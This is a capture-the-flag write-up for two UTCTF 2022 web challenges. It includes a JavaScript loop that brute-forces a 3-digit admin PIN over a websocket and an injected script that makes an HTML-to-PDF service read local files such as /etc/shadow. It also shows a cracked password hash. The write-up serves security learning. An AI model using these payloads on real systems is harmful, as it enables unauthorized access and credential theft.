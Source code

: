 # UTCTF 2022 - Web 
## 1- Websockets? 
<center><img src="../images/websockets_chall.png"></img></center>

#### about : 
- Type: Web 
- Level: easy 
- Website : http://web1.utctf.live:8651
</br>

in login page **/internale/login** i found theis code js for login : 
```js
document.querySelector("input[type=submit]").addEventListener("click", checkPassword);

function checkPassword(evt) {
	evt.preventDefault();
	const socket = new WebSocket("ws://" + window.location.host + "/internal/ws")
	socket.addEventListener('message', (event) => {
		if (event.data == "begin") {
			socket.send("begin");
			socket.send("user " + document.querySelector("input[name=username]").value)
			socket.send("pass " + document.querySelector("input[name=password]").value)
		} else if (event.data == "baduser") {
			document.querySelector(".error").innerHTML = "Unknown user";
			socket.close()
		} else if (event.data == "badpass") {
			document.querySelector(".error").innerHTML = "Incorrect PIN";
			socket.close()
		} else if (event.data.startsWith("session ")) {
			document.cookie = "flask-session=" + event.data.replace("session ", "") + ";";
			socket.send("goodbye")
			socket.close()
			window.location = "/internal/user";
		} else {
			document.querySelector(".error").innerHTML = "Unknown error";
			socket.close()
		} 
	})
}
```
and a comment in the source code 
```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```
so i tried a bruteforce on 3 digits in the user admin : 
here is the code (same code just tweaks on console)
```js
function get_pwd(){
    for (let i = 0 ; i < 10  ; i++) {
    for (let j = 0 ; j < 10  ; j++) {
    for (let k = 0 ; k < 10  ; k++) {
    const socket = new WebSocket("ws://" + "web1.utctf.live:8651" + "/internal/ws")
    socket.addEventListener('message', (event) => {
        let pss = i.toString() + k.toString() + j.toString();
        if (event.data == "begin") {
            socket.send("begin");
            socket.send("user " + "admin")
            socket.send("pass " + pss);
        } else if (event.data == "baduser") {
            console.log("Bad user : " + "admin")
            socket.close()
        } else if (event.data == "badpass") {
            console.log("Trying : " + pss);
            socket.close()
        } else if (event.data.startsWith("session ")) {
            console.log("found : " + pss);
            return  True;
        } else {
            console.log("Some error")
            socket.close()
        } 
    })
}}}
}
```
result : 

found : **907** 

so i loged in and got the flag : **utflag{w3bsock3ts}**

## 2- HTML2PDF
<center><img src="../images/html2pdf_chall.png"></img></center>
#### about : 
- Type: Web 
- Level: meduim 
- Website : http://web2.utctf.live:9854

The page gets inputs and convert it from HTML to PDF
<center><img src="../images/html2pdf_page.png"></img></center>

so i need to get local file inclusion inside the html so it can return it after the pdf is created i tried : 
```html
<h1 id='test2'>a</h1>
<script>x = new XMLHttpRequest();
x.open('GET','file:///etc/etc',false);
x.send();
document.getElementById('test2').innerHTML= x.responseText;
</script>
```
basically what this do is fetch the file (internal) using javascript XMLHttpRequest class to get contenu before convert the page to pdf 

it worked. so now we have a basic LFI , so i chacked what privileges do i have , so i tried **/etc/shadow** and it worked , Nice 

<center><img src="../images/html2pdf_shadow.png"></img></center>

So , that WeakPasswordAdmin reveals itself , let's bruteforce with hashcat , i got 

```
$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:sunshine
```
i loged in and got the flag : **utflag{b1g_r3d_t3am_m0v35_0ut_h3r3}**